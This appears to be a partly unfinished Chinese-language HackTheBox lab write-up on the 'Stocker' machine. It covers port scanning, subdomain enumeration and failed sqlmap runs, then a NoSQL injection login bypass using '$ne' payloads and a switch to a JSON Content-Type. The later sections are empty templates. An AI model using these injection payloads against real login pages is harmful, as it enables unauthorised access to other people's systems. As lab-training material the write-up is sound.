

**Waiting for machine retire...**

*Difficulty: Easy*

---

## 扫描

将自己侦查时常用的命令写了个脚本：[工作流](./HTB_Busqueda.md#workflow-scan)

- 22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
- 80/tcp open  http    nginx 1.18.0 (Ubuntu)

## 漏洞分析

### 80端口

- robots.txt：无
- 网页信息
    - staff：**Angoose Garden**, Head of IT at Stockers Ltd.
    - Made by templatedeck.com
- 网页功能：无发现
- 网页源码：无发现
- 子域枚举
    - > Found: dev.stocker.htb Status: 302 [Size: 28] [--> /login]
- 目录枚举：由于发现子域，且是个登陆界面，所以似乎并不需要

#### 子域：dev.stocker.htb

将其加入hosts文件后访问，是个登陆界面。  
稍微试了下SQLi似乎不行。

- 网页源码
    - Hugo 0.84.0（搜了下似乎没漏洞）
    - bootstrap@5.0.2
    - name="username" placeholder="jsmith"
    - name="password" placeholder="Password"
- 目录枚举
    - /stock &nbsp; &nbsp; &nbsp; &nbsp; (Status: 302) [Size: 48] [--> /login?error=auth-required]

感觉突破口就在登陆界面了……又试了下placeholder那里写的账号密码，登陆失败。

注意到我们多次请求的cookie值是固定的，那尝试用sqlmap跑一下吧。  
```http
└─$ cat login-post.txt        
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AqGZ3cfqla8iZ8Z0kCgb0XFSH8yU28ZmZ.DHCZS1Pt2nPi34yO9KLryJeTtuIHKbjeBTVSVWxiCGs
Upgrade-Insecure-Requests: 1

username=admin&password=admin 
```

试了两种语法都没结果……
```bash
└─$ sqlmap -r login-post.txt -p username

└─$ sqlmap -u 'http://dev.stocker.htb/login' --cookie='s%3AqGZ3cfqla8iZ8Z0kCgb0XFSH8yU28ZmZ.DHCZS1Pt2nPi34yO9KLryJeTtuIHKbjeBTVSVWxiCGs' --data 'username=admin&password=admin' -p "username,password" --method POST
```
 
*后来了解到似乎sqlmap似乎不能测试NoSQLi？而对于NoSQLi另有个[NoSQLMap](https://github.com/codingo/NoSQLMap) 0.0*

*不懂了……看了眼官方论坛说[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)十分具有参考性 0.0*

看了眼wappalyzer插件，发现有Node.js。  
根据[IppSec解说的Shoppy](https://www.youtube.com/watch?v=AJc53DUdt1M&t=220s)，这里似乎是一样的情况，[NoSQLi](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

顺便记录几个知识点：
- `username[$ne]=toto&password[$ne]=toto` 这种在username用数组的，或者就单纯是字符串(scalar)的，一般是PHP、Apache
- 而npm服务器、Node.js就一般更改将报头 `Content-Type` 的 `application/x-www-form-urlencoded` 改为 `application/json`，然后用json格式的payload：`{"username": {"$ne": null}, "password": {"$ne": null} }`

#### NoSQLi绕过登陆

根据上述操作，看Burp的响应似乎是成功了：
```http
HTTP/1.1 302 Found
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 27 May 2023 14:44:49 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 56
Connection: close
X-Powered-By: Express
Location: /stock
Vary: Accept

<p>Found. Redirecting to <a href="/stock">/stock</a></p>
```

绕过登陆后会重定向到"/stock"，这个目录我们之前也枚举到过。  
而由于cookie值固定，我们现在应该算是已登录的状态了。  
用浏览器访问一下 `http://dev.stocker.htb/stock`，成功进入：  



## Initial Access

### PoC (CVE-yyyy-xxxx)


## flag: user


## Privilege Escalation

### PoC (CVE-yyyy-xxxx)


## flag: root


---

## 总结·后记

YYYY/MM/DD
……